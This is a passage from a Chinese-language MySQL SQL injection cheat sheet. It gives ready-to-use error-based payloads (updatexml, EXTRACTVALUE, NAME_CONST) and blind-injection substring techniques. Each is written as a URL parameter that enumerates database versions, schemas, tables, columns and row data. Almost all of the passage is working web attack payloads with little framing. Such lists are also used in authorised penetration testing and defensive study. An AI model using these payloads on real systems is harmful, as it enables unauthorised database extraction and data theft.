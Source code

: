 更简洁的写法：

```sql
updatexml(null,concat(0x0a,version()),null)-- -
updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```


### MySQL基于错误的Extractvalue函数

适用于`MySQL >= 5.1`

```sql
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),VERSION(),CHAR(126)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),table_name,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),data_column,CHAR(126)) FROM data_schema.data_table LIMIT data_offset,1)))--
```


### MySQL基于错误的NAME_CONST函数（仅适用于常量）

适用于`MySQL >= 5.0`

```sql
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(user(),1),NAME_CONST(user(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1)) as x)--
```


## MySQL盲注

### MySQL盲注使用Substring等价物

| 函数 | 示例 | 描述 |
| --- | --- | --- |
| `SUBSTR` | `SUBSTR(version(),1,1)=5` | 从字符串中提取子字符串（从任意位置开始） |
| `SUBSTRING` | `SUBSTRING(version(),1,1)=5` | 从字符串中提取子字符串（从任意位置开始） |
| `RIGHT` | `RIGHT(left(version(),1),1)=5` | 从字符串中提取一定数量的字符（从右侧开始） |
| `MID` | `MID(version(),1,1)=4` | 从字符串中提取子字符串（从任意位置开始） |
| `LEFT` | `LEFT(version(),1)=4` | 从字符串中提取一定数量的字符（从左侧开始） |

使用`SUBSTRING`或其他等价函数的盲注SQL注入示例：

```sql
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
?id=1 AND ASCII(LOWER(SUBSTR(version(),1,1)))=51
```
